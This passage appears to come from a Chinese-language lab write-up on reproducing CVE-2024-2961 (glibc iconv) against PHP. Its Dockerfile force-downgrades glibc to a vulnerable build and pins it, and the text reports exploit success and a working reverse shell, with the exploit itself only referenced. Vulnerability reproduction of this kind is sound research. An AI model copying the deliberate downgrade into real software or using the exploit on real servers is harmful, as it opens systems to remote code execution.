

結果發現還是全部都紅色 Fail

拿來標記用的 /tmp 資料夾裡也沒東西

Debug 了一陣子找不太到

後來才想到可以回頭去看看 docker 裡的環境



後來查了一些資料，發現 2.35-0ubuntu3.8 就已經把洞修掉了

所以得降級才能成功

### Dockerfile 修正

```dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get install -y nginx php-fpm python3 wget curl && \
    rm -rf /var/lib/apt/lists/*

WORKDIR /tmp

# 因為 2.35-0ubuntu3.8 裡面洞已經被修掉了
# 所以要特別指定（沒指定的話 22.04 是搭配 ubuntu3.11）
RUN wget http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.35-0ubuntu3_amd64.deb && \
    wget http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc-bin_2.35-0ubuntu3_amd64.deb && \
    # 使用 dpkg 強制安裝，並用 allow-downgrade 忽略版本檢查
    dpkg -i --force-all *.deb && \
    rm *.deb

# 鎖定版本
RUN apt-mark hold libc6 libc-bin

RUN sed -i 's|listen = /run/php/php8.1-fpm.sock|listen = 127.0.0.1:9000|' /etc/php/8.1/fpm/pool.d/www.conf
RUN sed -i 's|post_max_size = 8M|post_max_size = 100M|' /etc/php/8.1/fpm/php.ini && \
    sed -i 's|memory_limit = 128M|memory_limit = 512M|' /etc/php/8.1/fpm/php.ini

COPY index.php /var/www/html/index.php
RUN chown -R www-data:www-data /var/www/html
COPY ./nginx.conf /etc/nginx/sites-enabled/default

CMD service php8.1-fpm start && nginx -g 'daemon off;'
```

後來就成功了！

exploit success



開 reverse shell 也可以



## References

(1) https://medium.com/@knownsec404team/analysis-of-cve-2024-2961-vulnerability-e81c165cd897

(2) https://github.com/ambionics/cnext-exploits/tree/main

(3) https://blog.lexfo.fr/iconv-cve-2024-2961-p1.html
